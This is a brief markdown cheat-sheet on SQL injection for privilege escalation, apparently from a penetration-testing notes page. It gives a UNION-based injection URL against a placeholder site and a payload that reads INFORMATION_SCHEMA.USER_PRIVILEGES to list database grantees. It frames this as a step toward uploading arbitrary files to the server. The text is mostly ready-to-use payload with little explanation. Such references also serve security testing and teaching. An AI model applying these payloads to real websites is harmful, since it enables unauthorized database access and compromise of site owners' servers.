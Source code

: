 # SQL Privilege Escalation

## Identifying permissions of a single user

If the database user has write permission, it allows an attacker to upload arbitrary files in the server.

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:
http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -

Payload used for Privilege Check via I_S.PRIVILEGES:
```
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```
